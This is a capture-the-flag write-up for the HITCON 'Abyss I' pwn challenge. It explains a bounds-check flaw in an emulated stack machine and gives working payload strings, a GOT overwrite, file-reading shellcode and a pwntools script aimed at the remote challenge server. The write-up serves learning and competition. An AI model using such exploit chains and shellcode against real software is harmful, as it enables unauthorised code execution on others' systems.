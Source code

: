 # Abyss I
## Pwn 230

#### bigrick

From the directions, it looks like they wrote their own hypervisor and kernel on top of the userspace challenge. Checking the executable permissions showed modern protections, which made me unsure of the hint of "NX?"

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### RE

In the binary I see that `main` prints a line, reads some characters, to a global buffer, then calls `work` if reading was successful. So the real business is in work.

`Work` gets the `strlen` of our input buffer and stores the length on its stack. Then there's a big loop that seems to iterate over every character of input.

![work](img/work.png)

The first parsing step branches on some flag returned from `__ctype_b_loc()` which is a helper function to the `isalnum` and `isalpha` family. In this case, it looks like an inlined `isdigit` based on the branch to `fetch_int`. Indeed `fetch_int` parses a decimal number until a non digit is encountered.

![fetch_int](img/fetchint.png)

After `fetch_int` the value is sent to `push`. Push takes the value, calculates an offset based off of the `machine` global (renamed to `stack-ptr` here) and another global (renamed `stack` here), then writes the value there. The stack-ptr is incremented as well. This was the first indication to me that the user.elf program is an emulator of sorts.

The other side of `work` loop parses letters and symbols. Here is the letter parsing:

![letters](img/letters.png)

So letter parsing just takes the numerical value of lowercase letters starting with a = 0, b = 1 ... z = 25. That will be clear later.

The last part of the `work` loop is for symbol parsing. This stub passes the character to `commands` and if the return value is not NULL, it will call the function pointer returned.

![symbols](img/symbols.png)

`Commands` features a large jump table that returns function pointers based on the symbol passed, or NULL if the symbol doesn't map.

![commands](img/commands.png)

Among the commands were arithmetic operations, `pop_`, `swap_`, `store` and `fetch`, and two different `write`. It seems like this is definitely some kind of emulated stack machine. `store` and `fetch` take a value off the stack and access a uint32 array of size 26 in the data section. This must be for some registers a-z that are parsed as 0-26.

Cool! I had not pwned any emulators before, so this was very exciting! I had to find some way to use the emulated stack machine to leave it's confines and read and write the user.elf process memory.

### Breakout

It seems like the `pop` and `push` operations are properly bounds checking the emulated stack pointer. But the `swap_` command does not! It swaps the values at stack-ptr*-1* and stack-ptr*-2* without any regard for what stack-ptr is. This is especially bad because the stack pointer is directly below the first item on the stack:

All I have to do is put a negative value on the stack, call `swap`, and now the stack pointer points outside our emulated stack! The payload for this looks something like `4294967270\`. Append that with a handful of '.' and this will leak out the .data section one %d at a time :)

Vulnerable situation before `swap_`:
```
0x2020a0 uint32_t stack-ptr = 0x1   ──╮
0x2020a4 uint32_t stack[0] = -0x2     │
0x2020a8 uint32_t stack[0] = 0x0  <───╯
0x2020ac uint32_t stack[0] = 0x0
```

Vulnerable situation after `swap_`:
```
0x202098                          <───╮
0x20209c                              │
0x2020a0 uint32_t stack-ptr = -0x2  ──╯
0x2020a4 uint32_t stack[0] = 0x1      
0x2020a8 uint32_t stack[0] = 0x0
0x2020ac uint32_t stack[0] = 0x0
```

Once the emulated stack pointer is negative, anything in the .data section is fair game!

### Payload

Leaking data alone does not help much, especially since I only have one input string to send. I needed to craft a program to overwrite the GOT. Fortunately there are plenty of operations to choose from. Since the stack machine operates on 32 bit values and the emulator is 64 bit, I had to consider carefully how to not clobber either dword of the GOT value I intended to change.

The GOT initially looks like this:
```
0x202018 int64_t (* const puts@GOT)
0x202020 int64_t (* const write@GOT)
0x202028 int64_t (* const strlen@GOT)
```

But to the stack machine it looks like this:
```
0x202018 int32_t (* const puts@GOT)   <-- lower dword
0x20201c int32_t (* const puts@GOT)   <-- upper dword
0x202020 int32_t (* const write@GOT)  <-- lower dword
0x202024 int32_t (* const write@GOT)  <-- upper dword
0x202028 int32_t (* const strlen@GOT) <-- lower dword
0x20202c int32_t (* const strlen@GOT) <-- upper dword
```

This is where I used the store to register ability. I clobbered the lower half of `strlen@GOT` (won't be called again anyway), and targeted `write@GOT` as my overwrite (I control when `write` is called because of `write_`).

My first successful (sort of) payload was:
```
10,4294967265\a:4294943308+a;,
  │          │ │          │ ││
  │          │ │          │ │╰─> 6. call write
  │          │ │          │ ╰─> 5. restore upper half of write
  │          │ │          ╰─> 4. add offset to libc magic gadget
  │          │ ╰─> 3. store upper half of write
  │          ╰─> 2. take over stack ptr
  ╰─> 1. resolve libc write
```
_Note: this only works with ./user.elf, not the challenge kernel & hypervisor_

I was pretty sad that didn't work in production :( Evidently the kernel did not implement the execv system call, or it was blocking the request. I was also stumped. It seemed very difficult to put together three similar calls to `open("flag", 0)`, `read()`, then `write` this way. Perhaps it could be done, but I took a break and was searching for similar ctf challenge writeups. I found [this writeup](https://david942j.blogspot.com/2018/09/write-up-tokyowesterns-ctf-2018.html) that the challenge author, david942j, recently did!

The key takeaway was that even though the user.elf specified NX (non executable pages), the kernel must implement it to take effect. I took a guess and made up some shellcode (with no NULLs), that I could jump to and test the theory. And it worked :)

My shellcode loader was:
```
4294967265\a:2107690+a;,
                │      ╰─> 2. call shellcode
                ╰─> 1. offset to shellcode from write@GOT.PLT
```

Shellcode, compile with `nasm -f bin sc.asm`
```
BITS 64
main:
        ; nop sled and buffer
        times 70 nop

        ; open("flag", 0, 0);
        mov eax, 0x67616c66
        push rax
        mov rdi, rsp
        xor rsi, rsi
        mov rax, rsi
        mov rdx, rax
        inc rax
        inc rax
        syscall

        ; read(fd, buf, 64);
        mov rdi, rax
        lea rsi, [rel main]
        xor rdx, rdx
        inc rdx
        shl rdx, 7
        xor rax, rax
        syscall

        ; write(1, buf, 64);
        xor rax, rax
        inc rax
        mov rdi, rax
        lea rsi, [rel main]
        mov rdx, rax
        shl rdx, 7
        syscall
```

Put all together with pwntools:
```{python}
#!/usr/bin/env python
from pwn import *

r = remote('35.200.23.198', 31733)
r.recvuntil('down.\n')

with open('sc', 'rb') as sc:
    sc = sc.read()

payload = '4294967265\\a:2107690+a;,'+sc
r.sendline(payload)
print r.recvall()
```

This yielded that sweet, sweet, flag: `hitcon{Go_ahead,_traveler,_and_get_ready_for_deeper_fear.}`

### Conclusion

Overall I had a ton of fun with this challenge, and I look forward to reading writeups of parts 2 and 3 from smart people who got that far :) Thanks to david942j for the great chal and HITCON for the fun ctf!
